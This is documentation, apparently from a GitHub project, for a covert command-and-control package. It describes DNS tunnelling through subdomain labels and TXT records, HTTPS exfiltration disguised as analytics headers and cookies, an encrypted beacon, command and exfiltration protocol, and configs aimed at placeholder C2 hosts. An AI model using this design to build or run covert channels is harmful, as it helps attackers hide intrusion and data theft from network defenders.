

# Covert C2 Channels

Bidirectional command-and-control channels that work through firewalls and network restrictions.

- **Source:** [`c2/`](../c2/) package

## Architecture



## DNS Tunnel (`c2/dns_tunnel.py`)

Encodes data in DNS subdomain labels and receives commands in DNS TXT responses. Works through most firewalls since DNS (port 53) is almost always allowed.

**Protocol:**
- Agent -> Controller: `<base32-chunk>.<session-id>.c2.example.com`
- Controller -> Agent: Commands in DNS TXT records

**Constraints:**
- Max 63 bytes per DNS label
- Max 253 bytes total domain name
- Case-insensitive (uses base32, not base64)
- Automatic chunking for large payloads

```yaml
transport:
  method: "dns"
  dns:
    domain: "c2.yourdomain.com"
    nameserver: "8.8.8.8"
    shared_key: "hex-encoded-32-byte-key"
    poll_interval: 60
```

## HTTPS Covert Channel (`c2/https_covert.py`)

Hides data in legitimate-looking HTTPS requests that mimic normal web browsing.

**Encoding methods:**
| Method | Where data is hidden |
|--------|---------------------|
| `header` | X-Request-ID, ETag, X-Correlation-ID headers |
| `cookie` | Cookie header mimicking Google Analytics |
| `param` | URL parameters mimicking analytics pixels |
| `body` | JSON body mimicking analytics events |

```yaml
transport:
  method: "https_covert"
  https_covert:
    endpoint: "https://analytics.example.com/collect"
    method: "header"
    shared_key: "hex-encoded-32-byte-key"
```

## C2 Protocol (`c2/protocol.py`)

Encrypted message format shared between DNS and HTTPS channels.

**Message types:**
| Type | Code | Direction | Purpose |
|------|------|-----------|---------|
| BEACON | `b` | Agent -> Controller | Heartbeat / registration |
| COMMAND | `c` | Controller -> Agent | Instruction to execute |
| RESPONSE | `r` | Agent -> Controller | Command result |
| EXFIL | `x` | Agent -> Controller | Data chunk |
| ACK | `a` | Both | Acknowledgment |

**Encoding:** JSON -> zlib compress -> AES-256-GCM encrypt -> base64url encode

## Using as Transport Plugin

Both C2 channels are registered as transport plugins and can be used in the failover chain:

```yaml
transport:
  method: "http"
  failover:
    enabled: true
    methods: ["dns", "https_covert", "email"]
```
